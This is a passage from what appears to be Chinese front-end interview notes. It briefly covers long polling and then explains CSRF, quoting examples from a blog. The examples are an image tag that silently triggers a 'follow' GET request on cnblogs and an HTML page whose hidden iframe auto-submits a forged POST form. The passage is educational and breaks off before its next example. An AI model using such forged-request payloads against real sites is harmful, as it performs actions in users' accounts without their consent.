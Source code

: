 一个简单的例子,如果把一次请求看作是去隔壁寝室找同学的过程。短轮询需要过去看一次得到回应(在/不在)之后马上回自己的寝室,再循环这个过程。而长轮询是看到如果不在,那么会接着等,直到等到了再回去,停止这一次的过程,然后又开启新的之前的过程。

    所有的浏览器都支持长轮询。


## CSRF攻击
### CSRF是什么？
CSRF(Cross Site Request Forgery),中文为跨站点请求伪造。CSRF攻击是攻击者利用用户的身份操作用户帐户的一种攻击方式,attacker在用户登陆目标网站之后,诱使用户访问一个攻击页面,利用目标网站对用户的信任,以用户身份在攻击页面对目标网站发起伪造用户操作的请求,达到攻击的目的。

以下的引用的例子转载于[Web安全值CSRF攻击](http://www.cnblogs.com/lovesong/p/5233195.html)

#### 简单版：

假设博客园有一个加关注的GET接口,而如下的blogUserGuid参数即为关注人的ID
```
    http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315
```
如果在博客文章的内容中写一个img标签
```
    <img style="width:0;" src="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315"   />
```
那么访问过这篇文章的用户都会自动的关注该ID的用户

#### 升级版
加入博客园还是有个加关注的接口,但是限制只获取POST请求的数据,这时做一个第三方的页面,其中包含form提交代码,然后通过QQ、邮箱等社交工具传播,诱导用户打开,那么打开过这个页面的用户就会中招了。

```
    <!DOCTYPE HTML>
    <html lang="en-US">
    <head>
    <title>CSRF SHOW</title>
    </head>
         <body>
              <!--不嵌iframe会跳转-->
              <iframe style="display:none;">
                   <form  name="form1" action="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx" method="post">
                        <input type="hidden" name="blogUserGuid" value="4e8c33d0-77fe-df11-ac81-842b2b196315"/>
                        <input type="submit" value>
                   </form>
                   <script>
                        document.forms.form1.submit();
                   </script>
              </iframe>
         </body>
    </html>
```
如果不加iframe,那么页面会重定向,而这样攻击的隐蔽性显得降低了很多。而如果直接加上iframe,这样也是无效的,因为iframe受限于同源策略,它是无法跨域请求的,在尝试过的所有浏览器中,包括但不限于IE7+、chrome、ff都无法加载iframe的内容,那么form提交也就无效了。如果使用form可以直接跨域post数据,利用一个展示页面内嵌另一个页面的form来post数据可以达到这个目的。示例如下：
